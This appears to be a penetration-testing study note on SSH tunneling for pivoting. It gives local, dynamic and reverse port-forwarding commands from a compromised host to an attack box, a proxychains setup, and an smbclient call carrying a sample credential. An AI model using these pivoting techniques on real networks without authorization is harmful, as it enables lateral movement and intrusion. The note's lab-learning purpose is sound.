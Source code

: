 ```yaml
---
tags:
  - tool
  - routing
---
```

# ssh

Connect to linux machines

## Capabilities

### Local Fowarding

```bash
# Connect to 10.4.50.215 and listen on 4455, forwarding to 172.16.50.217:445
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215

# Connect to 10.4.50.215 and listen on 9999, forwarding all traffic (simulating a SOCKS proxy)
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
```

### Remote Fowarding (reverse)

```bash
# Connect to our attack box, listen on port 2345, and forward all traffic to 10.4.50.215:5432
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@$OUR_IP

# Connect to our attack box, and act as a SOCKS proxy operating on port 1080
ssh -N -R 1080 kali@$OUR_IP
```

`-N` means no shell

- `-L` think local port forwarding
- `-D` think dynamic port forwarding (SOCKS proxy)
- `-R` think remote port forwarding

In the 2nd example

```bash
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
```

We are running the `ssh` command on a reverse shell we have already established to `192.168.50.63`. Upon executing the command, `192.168.50.63` essentially becomes a SOCKS proxy for us to send traffic to that will then be forwarded to `10.4.50.215`, and `10.4.50.215` will forward the traffic to its final destination.

We can then use [proxychains](../../../15%20Routing/proxychains.md) to interact with `192.168.50.63` by adding the following to our `/etc/proxychains4.conf`

```bash
# ... At the very bottom of the file, we set the ProxyList to only point to port 9999.
[ProxyList]
socks5 192.168.50.63 9999
```

Now in the following command

```bash
proxychains smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```

The request will first be taken by `proxychains` and fowarded to `192.168.50.63:9999` as specified in our `/etc/proxychains4.conf`. The traffic is then tunneled to `10.4.50.215:9999`, where `10.4.50.215` then fowards it to its final destination of `172.16.50.217:445`.